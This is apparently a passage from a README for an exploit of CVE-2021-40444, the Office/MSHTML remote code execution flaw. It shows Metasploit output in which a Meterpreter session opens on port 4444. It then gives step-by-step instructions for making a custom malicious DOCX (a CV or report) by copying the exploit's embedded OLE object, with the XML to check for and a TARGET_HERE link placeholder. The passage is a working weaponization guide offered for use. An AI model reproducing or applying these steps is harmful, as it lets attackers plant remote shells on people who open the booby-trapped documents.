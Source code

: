     [*] Sending stage (200262 bytes) to 172.20.7.36
    [*] Meterpreter session 1 opened (172.20.7.36:4444 -> 172.20.7.36:57920) at 2021-11-05 16:41:13 +0400
    ```

### Using custom template

1. Generate a custom DOCX template

    You need to create new office document and personalizing it by your own model (CV, Report, ...).
    
    The easy way, copy and paste (keep formating) from `data/exploits/cve-2021-40444.docx`.
    
    You can copy this anywhere in the document.
    
    Save the document and unpack this.
    
    Check that `word/documment.xml` contains something like:
    
    ```
    &lt;w:object w:dxaOrig=&quot;4320&quot; w:dyaOrig=&quot;4320&quot;&gt;
      &lt;v:shapetype id=&quot;_x0000_t75&quot; coordsize=&quot;21600,21600&quot; o:spt=&quot;75&quot; o:preferrelative=&quot;t&quot; path=&quot;m@4@5l@4@11@9@11@9@5xe&quot; filled=&quot;f&quot; stroked=&quot;f&quot;&gt;
        &lt;v:stroke joinstyle=&quot;miter&quot;/&gt;
        &lt;v:formulas&gt;
          &lt;v:f eqn=&quot;if lineDrawn pixelLineWidth 0&quot;/&gt;
          &lt;v:f eqn=&quot;sum @0 1 0&quot;/&gt;
          &lt;v:f eqn=&quot;sum 0 0 @1&quot;/&gt;
          &lt;v:f eqn=&quot;prod @2 1 2&quot;/&gt;
          &lt;v:f eqn=&quot;prod @3 21600 pixelWidth&quot;/&gt;
          &lt;v:f eqn=&quot;prod @3 21600 pixelHeight&quot;/&gt;
          &lt;v:f eqn=&quot;sum @0 0 1&quot;/&gt;
          &lt;v:f eqn=&quot;prod @6 1 2&quot;/&gt;
          &lt;v:f eqn=&quot;prod @7 21600 pixelWidth&quot;/&gt;
          &lt;v:f eqn=&quot;sum @8 21600 0&quot;/&gt;
          &lt;v:f eqn=&quot;prod @7 21600 pixelHeight&quot;/&gt;
          &lt;v:f eqn=&quot;sum @10 21600 0&quot;/&gt;
        &lt;/v:formulas&gt;
        &lt;v:path o:extrusionok=&quot;f&quot; gradientshapeok=&quot;t&quot; o:connecttype=&quot;rect&quot;/&gt;
        &lt;o:lock v:ext=&quot;edit&quot; aspectratio=&quot;t&quot;/&gt;
      &lt;/v:shapetype&gt;
      &lt;v:shape id=&quot;_x0000_i1025&quot; type=&quot;#_x0000_t75&quot; style=&quot;width:3.75pt;height:3.75pt&quot; o:ole=&quot;&quot;&gt;
        &lt;v:imagedata r:id=&quot;rId4&quot; o:title=&quot;&quot; cropbottom=&quot;64444f&quot; cropright=&quot;64444f&quot;/&gt;
      &lt;/v:shape&gt;
      &lt;o:OLEObject Type=&quot;Link&quot; ProgID=&quot;TARGET_HERE&quot; ShapeID=&quot;_x0000_i1025&quot; DrawAspect=&quot;Content&quot; r:id=&quot;rId5&quot; UpdateMode=&quot;OnCall&quot;&gt;
        &lt;o:LinkType&gt;EnhancedMetaFile&lt;/o:LinkType&gt;
        &lt;o:LockedField&gt;false&lt;/o:LockedField&gt;
        &lt;o:FieldCodes&gt;\f 0&lt;/o:FieldCodes&gt;
      &lt;/o:OLEObject&gt;
    &lt;/w:object&gt;
    ```
    